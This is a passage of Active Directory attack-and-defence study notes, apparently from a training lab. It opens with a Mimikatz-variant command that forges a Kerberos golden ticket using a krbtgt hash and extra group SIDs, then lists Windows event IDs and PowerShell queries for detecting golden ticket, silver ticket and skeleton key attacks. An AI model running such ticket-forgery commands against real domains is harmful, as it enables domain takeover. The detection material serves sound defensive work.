 ```powershell
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:dcorp-dc$ /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /groups:516 /sids:S-1-5-21-280534878-1496970234-700767426-516,S-1-5-9 /krbtgt:4e9815869d2090ccfca61c1fe0d23986 /ptt" "exit"
```

## Defense - Golden Ticket

**Some important Event ID**

Event ID:
```
- 4624: Account Logon
- 4672: Admin Logon
```

```powershell
Get-WinEvent -FilterHashtable @{Logname='Security';ID=4672} -MaxEvents 1 | Format-List -Property *
```

## Defense - Silver Ticket

**Some important Event ID**

Event ID:
```powershell
- 4624: Account Logon
- 4634: Account Logoff
- 4672: Admin Logon
```

```powershell
Get-WinEvent -FilterHashtable @{Logname='Security';ID=4672} -MaxEvents 1 | Format-List -Property *
```

## Defense - Skeleton Key

**Events**:
```
- System Event ID 7045 - A service was installed in the system. (Type Kernel Mode driver)
```

Events (**Audit privilege use** must be enabled):
```
- Security Event ID 4673 - Sensitive Privilege Use
- Event ID 4611 - A trusted logon process has been registered with the Local Security Authority
```

```powershell
Get-WinEvent -FilterHashtable @{Logname='System';ID=7045} | ?{$_.message -like "*Kernel Mode Driver*"}
```

**Not recommended**:
```powershell
Get-WinEvent -FilterHashtable @{Logname='System';ID=7045} | ?{$_.message -like "*Kernel Mode Driver*" -and $_.message -like "*mimidrv*"}
```
